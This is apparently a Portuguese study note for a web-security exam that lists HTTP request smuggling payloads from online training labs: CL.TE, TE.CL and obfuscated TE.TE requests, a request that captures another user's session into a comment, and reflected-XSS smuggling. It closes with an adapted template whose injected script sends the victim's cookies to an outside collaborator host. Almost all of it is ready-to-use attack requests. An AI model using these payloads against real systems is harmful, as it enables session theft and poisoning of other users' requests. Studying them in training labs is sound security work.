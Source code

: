 # HTTP Request Smuggling

Passei perrengue nos laboratórios com essa vulnerabilidade.

É bem incomum de cair no exame, mas caso ela apareça, identifique-a com a extensão HTTP Request Smuggler e ao identificar o tipo, utilize os payloads dos labs.

<br>

## Laboratórios

**Use unsupported Method GPOST (CL.TE)**
```
POST / HTTP/1.1
...
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

<br>
<br>

**Use unsupported Method GPOST (TE.CL)**
```
POST / HTTP/1.1
Host: 0a4d007b048d4832c0afb01800b700ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

<br>
<br>

**Obfuscating TE.TE**

```
POST / HTTP/1.1
Host: 0a8800ee047d6d24c0c255e700a6009c.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: xchunked
Content-Length: 4

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

<br>
<br>

**Detecting CL.TE**

```
POST / HTTP/1.1
Host: 0a6a00d30379506b809380bf004a002c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Transfer-Enconding: chunked

0

GET /throws404 HTTP/1.1
X-Ignore: X
```

<br>
<br>

**Get Other User's Request to Steal Cookie**
```
POST / HTTP/1.1
Host: 0ab400c404f08302c01f503800ff00ba.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 357
tRANSFER-ENCODING: chunked

0

POST /post/comment HTTP/1.1
Host: 0ab400c404f08302c01f503800ff00ba.web-security-academy.net
Cookie: session=N2dqf1wUAKs2U79D8Kb9d3ROkWblLydg
Content-Length: 814
Content-Type: application/x-www-form-urlencoded
Connection: close

csrf=nyDg9uHq32xSredK0gaIuHeyk21sESN8&postId=2&name=wad&email=rei%40gmail.com&website=https://kek.com&comment=LEL
```

<br>
<br>

**Exploiting HTTP Request Smuggling to Deliver Reflected XSS**
```
POST / HTTP/1.1
Host: 0a5800fa04974f1bc15f0dab004400ef.web-security-academy.net
Cookie: session=3MNdX218m6gxqn82BLl4dxpx3eCLNd8i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Transfer-Encoding: chunked

3
x=y
0

GET /post?postId=10 HTTP/1.1
User-Agent: kek"><img src=123 onerror=alert(1)>
Foo: x
```

OU

```
POST / HTTP/1.1
Host: 0a7100630381286c8082da5d00ea00f2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Transfer-Encoding: chunked

0

GET /post?postId=3 HTTP/1.1
User-Agent: "/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

Versão adaptada:
```
POST / HTTP/1.1
Host: TARGET.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://OASTIFY.COM/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
